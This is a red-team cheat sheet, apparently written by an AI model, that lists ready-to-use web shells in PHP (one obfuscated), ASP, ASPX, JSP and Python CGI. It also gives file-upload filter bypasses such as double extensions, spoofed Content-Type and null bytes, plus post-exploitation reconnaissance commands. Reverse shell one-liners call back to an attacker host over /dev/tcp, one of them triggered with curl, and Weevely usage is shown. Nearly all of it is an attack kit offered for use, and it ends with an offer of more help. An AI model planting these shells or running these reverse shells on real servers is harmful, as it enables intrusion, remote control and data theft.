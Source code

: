 # Web Shell Cheat Sheet for Red Teamers

## 🧬 Simple Web Shells

### PHP One-Liner

```php
<?php system($_GET['cmd']); ?>
```

Access via: `http://target/shell.php?cmd=whoami`

---

### PHP Eval Shell

```php
<?php eval($_REQUEST['cmd']); ?>
```

Dangerous but flexible — supports POST and GET.

---

### PHP Obfuscated Shell

```php
<?php @$_=create_function('',$_POST['_']);@$_(); ?>
```

POST to `shell.php` with: `_=system('id');`

---

### ASP Classic

```asp
<%eval request("cmd")%>
```

---

### ASPX (C# Inline)

```aspx
<%@ Page Language="C#" %>
<% Response.Write(System.Diagnostics.Process.Start("cmd.exe")); %>
```

---

### JSP Shell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

---

### Python CGI Web Shell

```python
#!/usr/bin/env python3
import cgi, subprocess
form = cgi.FieldStorage()
cmd = form.getvalue('cmd')
print("Content-Type: text/plainn")
print(subprocess.getoutput(cmd))
```

---

## 🕵️‍♂️ Evasion Tricks

### Double Extension

Upload as:  
```
shell.php.jpg  
shell.phtml  
shell.php;.jpg  
```

---

### Content-Type Bypass (Burp)

Intercept and modify:  
```
Content-Type: image/jpeg  
```

…but upload an actual webshell file.

---

### Null Byte Bypass (older PHP)

```
shell.php%00.jpg  
```

---

## 📤 Upload Vector Notes

### Common Upload Locations:
- `/uploads/`
- `/images/`
- `/static/`
- `/public/`
- `/files/`

Use this to hunt webshells after upload:

```bash
find /var/www/ -name "*.php" -mmin -10
```

---

## 🧠 Useful Commands via Web Shell

```bash
whoami  
id  
uname -a  
cat /etc/passwd  
netstat -tulpn  
```

---

## 🛠 Post-Exploitation: Upgrade Your Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

Use Burp or curl to trigger reverse shell:

```bash
curl "http://target/shell.php?cmd=bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261"
```

---

## 🧬 Web Shell Management Tools

- **Weevely**: Encrypted PHP webshell framework  
  ```bash
  weevely generate password shell.php  
  weevely http://target/shell.php password  
  ```

- **Pentestmonkey Shells**:  
  https://github.com/pentestmonkey/php-reverse-shell

---

Let me know if you want to add **detection and cleanup tips** for blue team crossover.

